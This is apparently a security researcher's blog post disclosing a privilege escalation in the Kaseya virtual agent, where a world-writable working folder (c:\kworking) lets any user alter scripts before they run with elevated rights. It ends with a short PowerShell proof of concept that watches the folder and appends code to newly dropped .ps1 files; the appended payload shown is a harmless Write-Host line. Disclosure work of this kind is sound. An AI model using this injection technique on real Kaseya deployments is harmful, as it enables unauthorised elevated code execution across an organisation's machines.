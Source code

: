 ```yaml
---
layout: post
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>

<h3>Product</h3>
Kaseya virtual agent provides a web application interface for managing and monitoring IT assets via deployed agents.
Its a competitor for Microsofts system center and has a small portion of the market around 5%.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.

<h3>Vulnerability</h3>
This is not really a new issue as such but more an extension of CVE-2017-12410 found by Filip Palian.
Where a fix was put in place for the original issue - it seems they didnt look at the root cause.
Excesive access to the working folder for an elevated account.

Kaseya agent has a working folder that defaults to c:\kworking
The folder is where scripts will be executed when they are pulled from the web application.
By default the any authenticate user can read / write this folder.

Scripts are not authenticated and are written to disk prior to execution.
So if the folder is monitored for script files being dropped an attacker just needs to append their own code prior to execution.

<h3>Impact</h3>
Given that the Kaseya virtual agent is an IT managment tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. However the vulnerability itself is reliant on code execution within the working folder and is dependant on scheduled tasks or an administrator executing tasks so the wait time can vary from 1 hour, a day or week.

If the working folder is commonly used with scripted commands this will be quite reliable for all systems - so the impact will vary dependant on an IT departments use of this.

<h3>Proof of concept</h3>
<pre>
  <code>
      $folder = 'c:\kworking' # Enter the root path you want to monitor.
      $filter = '*.ps1'  

      # In the following line, you can change 'IncludeSubdirectories to $true if required.                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =    [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 

          $path = $Event.SourceEventArgs.FullPath 

          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 

          Unregister-Event FileCreated

      }
  </code>
</pre>
